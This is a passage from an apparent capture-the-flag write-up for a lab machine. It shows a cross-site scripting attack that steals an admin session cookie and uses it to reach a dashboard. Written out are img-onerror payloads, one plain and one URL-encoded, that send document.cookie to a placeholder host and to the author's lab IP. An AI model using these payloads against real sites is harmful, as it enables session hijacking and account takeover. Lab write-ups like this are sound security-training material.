 Using information obtained from [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#retrieve-cookies), I finally landed on some version of:

```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
```

My version looked something more like

```javascript
<img src=x onerror=fetch("http://10.10.14.167:8000/"+document.cookie);>
```

This didn't initially work just sending through Repeater so I had to rethink and tried encoding different things and eventually landed on

```javascript
<img+src=x+onerror%3dfetch("http%3a//10.10.14.167%3a8000/"%2bdocument.cookie
)%3b>&email=13%40htb.com
```

This worked. Ignore the weird request parameters here, I'm not entirely sure what happened with this screenshot 🤔

![xss](/images/iclean-xss-document-cookie.webp)

And after sending it in Repeater, we did get the session cookie

![cookie](/images/iclean-getting-session-token.webp)

I didn't use any browser extensions or anything here, though I probably should have. I initially added this to the `/dashboard` path in the Developer Tools under cookies for `capiclean.htb` but I kept having problems with getting redirected back to `/` for some reason. So I researched some on the `Path` attribute for cookies and found that it determines the _path_ (crazy, right?!) that the cookie is valid for. I figured `/dashboard` should have worked, but since it wasn't I stuck `/` in and it started working no problem between page changes and wasn't redirecting me anymore.

![dev-tools](/images/iclean-session-token-root-path.webp)

Now, if we navigate to `/dashboard`, we aren't redirected back to `/` and instead are taken to another page.

![dashboard](/images/iclean-admin-dashboard.webp)

There's a few links on the page that we can go through one by one to see what they are. The first is the "Generate Invoice" page that has us entering some information about seemingly where the cleaning took place to generate an invoice for it.

![generate-invoice](/images/iclean-generate-invoice.webp)

And then there's a Generate QR page that has the hint of adding in an invoice ID

![generate-qr](/images/iclean-generate-qr.webp)

Then there's an "Edit Services" page which didn't seem too interesting.
